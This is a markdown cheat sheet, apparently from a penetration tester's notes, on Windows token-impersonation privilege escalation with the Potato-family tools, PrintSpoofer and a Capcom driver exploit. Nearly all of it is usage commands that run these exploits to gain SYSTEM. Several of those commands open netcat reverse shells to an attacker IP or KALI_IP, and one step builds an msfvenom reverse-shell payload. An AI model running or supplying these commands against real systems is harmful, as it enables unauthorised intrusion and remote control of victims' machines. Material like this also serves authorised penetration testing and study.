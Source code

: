 # windows token exploits

## Churrasco

**REQUIREMENTS:**

* SeImpersonalPrivilege
* Windows XP/VISTA/2003/2008, Win Server 2003

```bash
# usage
> churrasco.exe -d "nc.exe -e cmd.exe IP PORT"
```

## HotPotato

* Windows 7,8,10, Server 2008, Server 2012

## [JuicyPotato](https://github.com/ohpe/juicy-potato)

**REQUIREMENTS:**

* SeImpersonatePrivilege
* machine is < Windows 10 1809 < Windows Server 2019
* CLSID: [http://ohpe.it/juicy-potato/CLSID/](http://ohpe.it/juicy-potato/CLSID/)
    * Can use [http://ohpe.it/juicy-potato/CLSID/GetCLSID.ps1](http://ohpe.it/juicy-potato/CLSID/GetCLSID.ps1)
* Try: `{03ca98d6-ff5d-49b8-abc6-03dd84127020}`

```bash
> JuicyPotato.exe -l 1337 -p "c:\windows\system32\cmd.exe" -a "/c PATH\nc.exe -e cmd.exe IP PORT" -t * -c CLSID
> Juicy.Potato.x86.exe -l 1337 -p "c:\users\public\kashz.exe" -t * -c CLSID

> PSExec64.exe -i -u "nt authority\local service" <shell.exe>
```

## [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

**REQUIREMENTS:**

* SeImpersonatePrivilege
* Win10, Server 2016, Server 2019

```bash
> PrintSpoofer.exe -i -c cmd.exe
> PrintSpoofer.exe -c "nc.exe IP PORT -e cmd.exe"
# -i : interactive
# -c : command to run
```

## [RoguePotato](https://github.com/antonioCoco/RoguePotato)

**REQUIREMENTS:**

* SeImpersonatePrivilege
* machine is >= Windows 10 1809 & Windows Server 2019

```bash
# socat redirector for OXID resolving, must use 135
$ socat tcp-listen:135,reuseaddr,fork tcp:KALI_IP:9999
> RoguePotato.exe -r KALI_IP -e "PATH\nc.exe IP PORT -e cmd.exe" -l 9999
```

## [SeLoadDriverPrivilege](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#capcom-sys-driver-exploit)

**REQUIREMENTS:**

* Visual Studio to compile

### Steps:

1. obtain user SID
    1. `Get-ADUser -Identity 'svc-print' | select SID`
    2. `(New-Object System.Security.Principal.NTAccount("svc-print")).Translate([System.Security.Principal.SecurityIdentifier]).value`
2. Clone Repo: [tandasat/ExploitCapcom/](https://github.com/tandasat/ExploitCapcom/)
3. Generate `.exe` msfvenom reverse shell
4. Update path to reverse shell on target line 410 in file `ExploitCapcom.cpp`
5. Set for RELEASE
6. Build Solution
7. run `.\ExploitCapcom.exe`
